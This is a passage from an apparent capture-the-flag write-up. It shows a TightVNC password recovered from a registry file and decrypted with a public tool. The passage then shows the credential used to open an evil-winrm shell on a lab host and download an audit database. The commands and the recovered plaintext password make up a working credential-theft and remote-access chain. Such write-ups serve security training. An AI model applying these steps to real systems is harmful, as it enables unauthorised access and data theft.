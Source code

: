 ```
# cat './IT/Temp/s.smith/VNC Install.reg'
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
<SNIP>
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

We find what seems to be the password for the VNC application.

## VNC Password Decryption

Online research shows that the VNC password is encrypted. There are several tools for decrypting it.

We can decrypt it with [this utility - vncpasswd.py](https://github.com/trinitronx/vncpasswd.py). The `-H` flag tells the utility to expect hex input.

```
# python2 ./vncpasswd.py -d -H 6bcf2a4b6e5aca0f
<SNIP>
Decrypted Bin Pass= 'sT333ve2'
Decrypted Hex Pass= '7354333333766532'
```

Time to try this new credential it out on other services.

## Database Dumping

As winrm gives us the most direct channel into the machine, it's a good idea to try it first. 

```
# evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> ls
```

We can find **user.txt** in the Desktop folder.

Our earlier enumeration shows that there is an Audit share. While `r.thompson` does not have access to it, `s.smith` does. Let's see what we can find inside.

```
*Evil-WinRM* PS C:\Shares\Audit\DB> ls


    Directory: C:\Shares\Audit\DB


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/28/2020   9:39 PM          24576 Audit.db


*Evil-WinRM* PS C:\Shares\Audit\DB> download Audit.db
Info: Downloading C:\Shares\Audit\DB\Audit.db to Audit.db
```
